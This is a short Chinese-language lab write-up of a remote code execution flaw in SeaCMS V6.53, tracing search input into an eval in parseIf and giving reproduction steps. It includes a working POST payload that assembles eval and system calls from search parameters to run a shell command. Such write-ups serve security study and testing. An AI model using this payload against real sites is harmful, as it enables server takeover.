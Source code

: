 # 海洋 cms V6.53 版本代码执行by [scholar](https://github.com/Frivolous-scholar) 

## 概述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将content内容 eval 执行，造成命令执行。

## 复现

1、首先打开靶场。

![1](./1.png)

2、进行搜索并抓包。

![2](./2.png)

3、利用 POC 来拿 Flag,POC 如下。

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
```

![3](./3.png)
